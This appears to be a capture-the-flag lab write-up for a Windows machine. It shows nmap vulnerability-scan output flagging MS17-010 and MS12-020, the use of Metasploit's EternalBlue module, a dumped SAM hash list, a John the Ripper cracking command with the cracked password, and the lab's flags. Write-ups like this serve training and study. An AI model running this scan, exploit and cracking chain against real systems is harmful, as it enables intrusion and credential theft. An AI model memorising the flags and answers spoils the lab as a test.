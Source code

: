 # Results from scanning machine using nmap -sV -vv --script vuln 10.10.233.196

Scanning ip-10-10-233-196.eu-west-1.compute.internal (10.10.233.196) [1000 ports]
Discovered open port 49152/tcp on 10.10.233.196
Discovered open port 3389/tcp on 10.10.233.196
Discovered open port 139/tcp on 10.10.233.196
Increasing send delay for 10.10.233.196 from 0 to 5 due to 72 out of 238 dropped probes since last increase.
Discovered open port 445/tcp on 10.10.233.196
Discovered open port 135/tcp on 10.10.233.196
Discovered open port 49158/tcp on 10.10.233.196
Discovered open port 49159/tcp on 10.10.233.196
Discovered open port 49153/tcp on 10.10.233.196
Discovered open port 49154/tcp on 10.10.233.196
Completed SYN Stealth Scan at 02:29, 5.00s elapsed (1000 total ports)
Initiating Service scan at 02:29
Scanning 9 services on ip-10-10-233-196.eu-west-1.compute.internal (10.10.233.196)
Service scan Timing: About 55.56% done; ETC: 02:31 (0:00:43 remaining)
Completed Service scan at 02:30, 58.56s elapsed (9 services on 1 host)
NSE: Script scanning 10.10.233.196.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 02:30
NSE Timing: About 99.91% done; ETC: 02:30 (0:00:00 remaining)
Completed NSE at 02:31, 32.83s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 02:31
NSE: [ssl-ccs-injection 10.10.233.196:3389] No response from server: ERROR
Completed NSE at 02:31, 30.07s elapsed
Nmap scan report for ip-10-10-233-196.eu-west-1.compute.internal (10.10.233.196)
Host is up, received arp-response (0.00036s latency).
Scanned at 2021-06-28 02:29:24 UTC for 126s
Not shown: 991 closed ports
Reason: 991 resets
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp   open  netbios-ssn  syn-ack ttl 128 Microsoft Windows netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp   open  microsoft-ds syn-ack ttl 128 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
3389/tcp  open  tcpwrapped   syn-ack ttl 128
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
49152/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49153/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49154/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49158/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49159/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
MAC Address: 02:CA:6F:71:C1:C9 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).

# What is this machine vulnerable to?
ms17-010


# Hashdump after running exploit/windows/smb/ms17_010_eternalblue in Metasploit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

# Cracking hash for Jon dump using John the Ripper
John --wordlist=/usr/share/wordlists/rockyou.txt --format=NT blue.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)
1g 0:00:00:00 DONE (2021-06-27 21:27) 2.040g/s 20817Kp/s 20817Kc/s 20817KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed

# Flags found in Windows machine
flag{access_the_machine}
flag{sam_database_elevated_access}
flag{admin_documents_can_be_valuable}
